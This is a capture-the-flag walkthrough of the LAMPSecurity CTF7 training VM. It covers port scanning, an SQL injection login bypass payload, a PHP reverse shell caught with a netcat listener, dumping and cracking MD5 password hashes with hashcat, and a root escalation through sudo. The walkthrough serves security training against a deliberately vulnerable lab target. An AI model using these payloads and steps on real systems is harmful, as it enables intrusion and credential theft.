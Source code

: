 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF7 - Walkthrough"
date:   2014-04-02 20:00:30
author: Dhruv Ambaliya
description: 'LAMP Security CTF 7 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com/)


## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.134

{% endhighlight %}

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 5.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 139</code></p></pc>
           </td>
           <td>
              <pc><p>Samba</p></pc>
           </td>
           <td>
               <pc><p>Samba smbd 3.X (workgroup: MYGROUP)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 901</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Samba SWAT administration server</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 10000</code></p></pc>
           </td>
           <td>
              <pc><p>Webmin</p></pc>
           </td>
           <td>
               <pc><p>(Webmin httpd)</p></pc>
           </td>
        </tr>

     </tbody>

</table>
</div>

## Web Application Enumeration

Host enumeration discovered two web application, one on port <code>80</code> and one on port
<code>8080</code>, as with the previous CTF series VM's, other entry points are
ignored and the **web application** is used for the entry point.

## Web Application on Port 8080

Inspection of the web application revealed it's vulnerable to an SQLi
authentication bypass. By Entering <code>' or 1=1 -- .</code> in the username
field an attacker can successfully login as admin.

![SQL Injection Auth Bypass](/img/blog/ctf7/sqli.png)

Admin account:

![Admin Account SQLi](/img/blog/ctf7/admin-login.png)

### PHP Shell Upload

With admin access to the web application it was possible to upload a reverse
shell.

![Reverse PHP Shell](/img/blog/ctf7/upload-shell.png)

Execution of the php shell was not possible via the web application directly.

### Dirbuster

Dirbuster disclosed the location of the file uploads directory
<code>/assets/</code>.

![OWASP Dirbuster](/img/blog/ctf7/dirbuster.png)

### Reverse Shell

![Execute Reverse Shell](/img/blog/ctf7/exec-webshell.png)

Executing the php script resulted in a reverse shell as the user apache:

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.134] from (UNKNOWN) [192.168.221.133] 58599
Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC
2012 i686 i686 i386 GNU/Linux
01:12:47 up  2:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.1$
{% endhighlight %}

## Local Enumeration

Local enumeration discovered mysql root account could be accessed locally
without a password:

{% highlight bash %}
mysql -u root  and no password worked as the apache user.
{% endhighlight %}

### MySQL

{% highlight bash %}
mysql> select username, password from users;
select username, password from users;
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| username
| password                         |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| brian@localhost.localdomain
| 4cb9c8a8048fd02294477fcb1a41191a |
| john@localhost.localdomain
| 0d9ff2a4396d6939f80ffe09b1280ee1 |
| alice@localhost.localdomain
| 2146bf95e8929874fc63d54f50f1d2e3 |
| ruby@localhost.localdomain
| 9f80ec37f8313728ef3e2f218c79aa23 |
| leon@localhost.localdomain
| 5d93ceb70e2bf5daa84ec3d0cd2c731a |
| julia@localhost.localdomain
| ed2539fe892d2c52c42a440354e8e3d5 |
| michael@localhost.localdomain
| 9c42a1346e333a770904b2a2b37fa7d3 |
| bruce@localhost.localdomain
| 3a24d81c2b9d0d9aaf2f10c6c9757d4e |
| neil@localhost.localdomain
| 4773408d5358875b3764db552a29ca61 |
{% endhighlight %}

### Hashcat md5 cracking

The hashes were placed in a text file using the following format:

{% highlight bash %}
brian@localhost.localdomain:4cb9c8a8048fd02294477fcb1a41191a
john@localhost.localdomain:0d9ff2a4396d6939f80ffe09b1280ee1
alice@localhost.localdomain:2146bf95e8929874fc63d54f50f1d2e3
ruby@localhost.localdomain:9f80ec37f8313728ef3e2f218c79aa23
leon@localhost.localdomain:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia@localhost.localdomain:ed2539fe892d2c52c42a440354e8e3d5
michael@localhost.localdomai:9c42a1346e333a770904b2a2b37fa7d3
bruce@localhost.localdomai:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil@localhost.localdomain:4773408d5358875b3764db552a29ca61
charles@localhost.localdomai:b2a97bcecbd9336b98d59d9324dae5cf
{% endhighlight %}

NOTE: In order for hashcat to ignore usernames in a hash input file you need to
specify <code>--username </code>

{% highlight bash %}
[root:~]# hashcat --username -m 0 -a 0 crack-ctf7.txt
/usr/share/wordlists/rockyou.txt
{% endhighlight %}

#### Cracked MD5 Hashes

{% highlight bash %}
ed2539fe892d2c52c42a440354e8e3d5:madrid
4cb9c8a8048fd02294477fcb1a41191a:changeme
5d93ceb70e2bf5daa84ec3d0cd2c731a:qwer1234
2146bf95e8929874fc63d54f50f1d2e3:turtles77
9c42a1346e333a770904b2a2b37fa7d3:somepassword
b2a97bcecbd9336b98d59d9324dae5cf:chuck33
{% endhighlight %}

## Local Privilege Escalation

The julia account was able to <code>su</code> to root.

{% highlight bash %}
bash-4.1$ su - julia
su - julia
Password: madrid

[julia@localhost ~]$ sudo -s
sudo -s
[sudo] password for julia: madrid

[root@localhost julia]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@localhost julia]#
{% endhighlight %}

Thanks for the VM :)
